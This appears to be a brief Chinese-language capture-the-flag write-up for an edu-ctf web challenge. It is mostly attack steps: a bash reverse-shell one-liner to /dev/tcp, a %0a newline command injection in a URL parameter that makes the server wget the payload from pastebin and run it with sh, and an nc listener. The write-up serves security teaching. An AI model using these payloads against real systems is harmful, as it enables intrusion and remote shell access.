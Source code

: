 # 解法
透過 https://pastebin.com 把回傳 shell 的code 放到網路上 
code : `bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'`
在透過 ％0a 去換行，讓 shell 去執行 wget 下載我們的 code
`https://edu-ctf.csie.org:10153/?me0w=%0awget%20<網址>%20-O%20/tmp/zodf`
在本地端透過 nc 去開一個 port 去聽回傳 `$nc -vlk 6666`

之後在網站上執行 sh 讓他回傳 shell 
`https://edu-ctf.csie.org:10153/?me0w=%0ash%20/tmp/zodf`
就能拿到 flag 了，他 flag 有設權限不能直接開，所以要透過他裡面的 readflag 去開啟
